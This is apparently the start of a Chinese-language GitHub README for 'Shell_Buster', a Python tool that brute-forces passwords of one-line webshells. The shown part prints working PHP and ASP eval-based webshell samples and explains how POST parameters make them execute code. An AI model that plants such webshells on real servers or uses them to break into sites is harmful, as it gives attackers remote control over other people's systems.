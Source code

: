# Shell_Buster
### python之提速千倍爆破一句话

最初思路源于T00ls版主`**接地气**`，一个低调、热心的安全研究者。向技术研究者和分享者致敬！！！


本来接地气大牛已经写出了C#版本的工具了，那天在群里王子表哥突然那么一问，于是我就写了这篇详细的过程。


一般来说，一句话木马脚本的样本如下：

>**PHP：**`<?php @eval($_POST['v5est0r']);?>`

>**ASP：**`<%eval request("v5est0r")%>`

一般来说，一句话木马通过POST方式的传参方式如下（以写出字符的语句为例）：



>**PHP：**`v5est0r=echo "password is v5est0r";`

>**ASP：**`v5est0r=response.write("password:v5est0r")`


如下，我们这里准备了一个PHP版本的一句话木马，密码是`v5est0r`，POST的数据是`v5est0r=echo "password is v5est0r";`，变量提交能匹配上即执行`echo`语句，此为传统的单数据提交模式，


![Alt text](./pic/1482032941587.png)
